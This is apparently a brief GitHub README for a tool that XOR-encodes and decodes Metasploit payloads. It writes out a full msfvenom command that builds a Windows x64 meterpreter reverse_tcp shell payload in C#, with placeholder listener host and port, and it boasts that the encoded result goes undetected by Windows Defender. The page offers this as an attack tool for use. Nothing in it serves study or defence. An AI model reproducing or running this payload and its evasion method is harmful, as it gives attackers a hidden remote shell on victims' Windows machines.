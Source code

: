 # Cipher_Encode-Decode
can encode / decode XorCipher from msf venom reverse_tcp <br>
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f csharp <br>
actually undetected with Windows Defender
